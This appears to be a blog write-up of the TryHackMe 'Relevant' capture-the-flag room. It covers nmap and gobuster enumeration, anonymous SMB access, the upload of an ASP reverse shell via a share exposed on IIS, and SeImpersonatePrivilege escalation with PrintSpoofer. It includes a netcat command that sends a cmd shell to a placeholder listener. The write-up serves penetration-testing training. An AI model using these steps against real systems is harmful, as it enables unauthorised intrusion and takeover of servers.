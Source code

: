 ```yaml
---
title: TryHackMe | Relevant Writeup
categories: [pentesting]
tags: [tryhackme, oscp, smb]
---
```


# TryHackMe | Relevant Writeup (No Metasploit)

## Approach
Because I am looking forward getting the OSCP, I will avoid using automatic exploitation tools such as Metasploit or SQLMap.

As I first look into the page, the only thing I see is an IIS Windows Server image, with nothing else in the code, so we start by doing a port scan with Nmap

```console
nmap -sC -sV -p- Target_IP -oN relevant.nmap
```

At the same time I will be running GoBuster with Seclists' web-content wordlist to find interesting directories.

```console
gobuster dir -u Target_IP -w /usr/share/wordlists/seclist/Discovery/Web-Content/big.txt
```

While GoBuster is running I'll take a look to the nmap result

```console
Host is up (0.017s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-26T16:22:35
|_Not valid after:  2023-12-26T16:22:35
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-27T16:42:47+00:00
|_ssl-date: 2023-06-27T16:43:28+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:93:A8:71:61:09 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-27T09:42:47-07:00
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 0293a8716109 (unknown)
| smb2-time: 
|   date: 2023-06-27T16:42:47
|_  start_date: 2023-06-27T16:22:53
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We see the machine is running SMB so let's enumerate it.

![SMB enum result 1](/assets/posts/relevant/1.png)

We see a share called "nt4wrksv", we can try to log in anonimously

![SMB enum result 2](/assets/posts/relevant/2.png)

There is an interesting file there, we download it so we can have it handy. Let's take a look at its content.

![passwords.txt content](/assets/posts/relevant/3.png)

The file contais two encoded user passwords, and we see that they are encoded using base64 at a glance. We could decode them using the console but i preffer using CyberChef.

![passwords.txt content decoded](/assets/posts/relevant/4.png)

And here we have it, the passwords for users Bob and Bill.
After getting these credentials I tried to log in with to SMB and with SSH and it didn't work.

![psexec 1](/assets/posts/relevant/5.png)
![psexec 2](/assets/posts/relevant/6.png)

However, using psexec we can know that the user Bill is not even real, and Bob is but the password is wrong.
Here comes the only difficulty of this machine; it is a rabbit hole, as it provides you with fake credentials that have no use at all. So what can we do now?
The GoBuster scan we did at the start didn't file a single directory, so now we can do a couple things: look for vulnerabilities on the services or we can keep enumerating them.

The thing is, both methods can result in compromising the machine, for now I will do the SMB exploitation, because the other options is to use EternalBlue and it's not the objective of this room.

## SMB Exploitation
Let's go for the easy one first. We saw that using GoBuster directly on the main page (port 80) didn't get us any results, but we can enumerate the IIS webserver (port 49663).
<br>
We have found that there is a directory with the name "**nt4wrksv**", just like the SMB share we used to enum. When accessing the link we get a blank page but no errors, so we can try to path traversal to check if we can see the contents of the **passwords.txt** file that was in the share.

![nt4wrksv passwords.txt](/assets/posts/relevant/7.png)

And yes, we can view the file. Now we have access to a SMB share which can be accessed through browser, so let's craft our ASP reverse shell and stablish initial access to the machine.

![put reverse shell](/assets/posts/relevant/8.png)
![shell stablished](/assets/posts/relevant/9.png)

Now we have a shell and list the users to get the first flag.
![User flag](/assets/posts/relevant/10.png)

### Privilege escalation
First we check for exploitable tokens
```console
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have the **SeImpersonatePrivilege** token enabled, so no big deal to gain root acess. To do this we will upload PrintSpoofer and a netcat binary. Once we have both uploaded, we start another listener and run PrintSpoofer. You should get a bind shell with this command
```PrintSpoofer.exe -c “c:\inetpub\wwwroot\nt4wrksv\nc.exe LHOST LPORT -e cmd”```, but because we just need to check one flag and nothing else I decided to invoke a SYSTEM shell on the same session with ```PrintSpoofer.exe -i -c cmd```.

![Root flag](/assets/posts/relevant/11.png)

Finally we get the root flag.